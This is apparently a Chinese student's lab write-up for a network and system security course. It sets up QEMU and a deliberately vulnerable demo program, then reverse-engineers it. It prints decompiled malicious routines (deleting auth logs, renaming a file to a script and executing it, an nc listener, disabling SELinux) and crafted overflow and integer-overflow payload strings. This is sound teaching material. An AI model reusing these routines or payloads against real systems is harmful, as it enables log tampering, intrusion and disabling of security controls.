


信息与网络安全课程设计
课程设计 # 软件安全课程设计 任务资料 pcap-sample.zip 网络与系统安全课程设计指导手册-2025v3
Task1
依赖安装
1 | # 依赖安装 |
下面的代码只实现了基本的功能 task1_version0.zip 这段代码只实现了从pcap-sample.c增加代码实现顺序包重组的功能，如果需要进一步实现扩展功能，则需要读者自行实现。 ## TASK2 任务资源 demo.c
在调试过程中 可以使用下列命令允许端口复用从而便于调试避免bind
failed: Address already in use，下次重启失效。 1
sudo sysctl -w net.ipv4.tcp_tw_reuse=1
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18# 依赖安装
sudo apt-get install git libglib2.0-dev libfdt-dev libpixman-1-dev zlib1g-dev ninja-build
sudo apt-get install git-email
sudo apt-get install libaio-dev libbluetooth-dev libcapstone-dev libbrlapi-dev libbz2-dev
sudo apt-get install libcap-ng-dev libcurl4-gnutls-dev libgtk-3-dev
sudo apt-get install libibverbs-dev libjpeg8-dev libncurses5-dev libnuma-dev
sudo apt-get install librbd-dev librdmacm-dev
sudo apt-get install libsasl2-dev libsdl2-dev libseccomp-dev libsnappy-dev libssh-dev
sudo apt-get install libvde-dev libvdeplug-dev libvte-2.91-dev libxen-dev liblzo2-dev
sudo apt-get install valgrind xfslibs-dev
sudo apt-get install libnfs-dev libiscsi-dev
# QEMU安装
wget https://download.qemu.org/qemu-9.0.1.tar.xz
tar xvJf qemu-9.0.1.tar.xz
cd qemu-9.0.1
./configure
make1
2sudo apt-get update
sudo apt-get install qemu
模拟运行
1 | gcc -m32 -fno-stack-protector demo.c -o demo |
发现错误  1
2
3
4# 安装32位依赖
sudo dpkg --add-architecture i386
sudo apt-get update
sudo apt-get install gcc-multilib libc6-dev-i3861
2
3
4
5
6
7qemu-i386 -strace -d in_asm -D trace.log demo
qemu-i386 -strace -d in_asm -D trace.log cs-test
#单开另外一个终端输入下面的命令
telnet 127.0.0.1 12345
# 输入1AB 实验恶意代码执行的部分
# 输入12345678X 实验缓冲区溢出部分1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64int Mal_func1
{
puts("[+] Deleting system logs...");
return remove("/var/log/auth.log");
}
int Mal_func2()
{
if ( sub_5DD41290("/home/cs-test/Test/hustlogo.png", "system.sh") )
return sub_5DD41220("rename failed");
if ( sub_5DD41330("system.sh", 511) )
return sub_5DD41220("chmod failed");
sub_5DD41260("[+] Changing file permission...");
if ( sub_5DD41270("./system.sh") == -1 )
return sub_5DD41220("system failed");
else
return sub_5DD41260("Script executed successfully.");
}
- Mal_func3
int Mal_func3()
{
sub_5DD411F0("Executing command: %s\n", "nc -l -p 54321 > hustlogo.png");
if ( sub_5DD41270("nc -l -p 54321 > hustlogo.png") == -1 )
return sub_5DD41220("system failed");
else
return sub_5DD41260("Command executed successfully.");
}
- Mal_func4
int Mal_func4()
{
int result; // eax
int v1; // eax
int v2; // [esp+Ch] [ebp-Ch]
result = sub_5DD41260("[+] Creating zombie processes...");
v2 = 0;
while ( v2 <= 9 )
{
result = sub_5DD412E0();
if ( !result )
{
++v2;
v1 = sub_5DD41240();
sub_5DD411F0("I am child, my pid = %d\n", v1);
result = sub_5DD41280((int)&GLOBAL_OFFSET_TABLE_);
}
}
return result;
}
int Mal_func5()
{
sub_5DD41260("[+] Disabling SELinux...");
return sub_5DD41270("setenforce 0");
}
void __cdecl Vul_func12(int dest_raw)
{
char dest[24]; // [esp+Ch] [ebp-1Ch] BYREF
if ( *(char *)(dest_raw + 50) + *(char *)(dest_raw + 70) <= 19 )
strncpy(dest, (const char *)(dest_raw + 20), *(char *)(dest_raw + 50) + *(char *)(dest_raw + 70));
if ( dest[23] == '%' )
Vul_func345((int)dest);
}1
2
3
4
5payload1="1AByouarethebest" #
payload2="128youarethebest" #
payload3="a"*65+"X"+"youarethebest" # aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaXyouarethebest
payload4="a"*43+"Y"+"youarethebest" # aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaYyouarethebest
payload5="a"*35+"7"+(52-36)*"a"+'7'+"youarethebest" # aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa7aaaaaaaaaaaaaaaa7youarethebest
难点在于Vul_func12的溢出 目标显然是进入Vul_func345函数
我们希望绕过这个判断语句if ( (char )(dest_raw + 50) +
(char )(dest_raw + 70) <= 19 )
查看汇编源码发现 
参与比较的dl参与了有符号扩展的movsx,
所以可以利用整数溢出漏洞来绕过这个判断语句, 从而向dest 填充目标字符串。
所以可以先构建payload 1
"a"*50+'\xff'+"a"*19+"\xff"+"youarethebest"
1
"a"*20+"a"*23+"%"+"a"*6+'\xff'+"a"*19+"\xff"+"youarethebest"
更新后的vul345的代码为 1
2
3
4
5
6
7
8
9
10
11
12int __cdecl Vul_func12(int a1)
{
int result; // eax
char dest[24]; // [esp+Ch] [ebp-1Ch] BYREF
if ( *(char *)(a1 + 50) + *(char *)(a1 + 70) <= 19 )
strncpy(dest, (const char *)(a1 + 20), *(char *)(a1 + 50) + *(char *)(a1 + 70));
result = *(unsigned __int8 *)(a1 + 23);
if ( (_BYTE)result == '%' )
return Vul_func345(dest);
return result;
}1
payload6_int_overflow = "a"*50+'\xff'+"a"*19+"\xff"+"a"*7+"b"+"a"+"youarethebest" # payload6整数溢出漏洞
1
payload6_double_free = "a"*23+"%"*1+"a"*54+"b"+"a"+"youarethebest" #触发vul345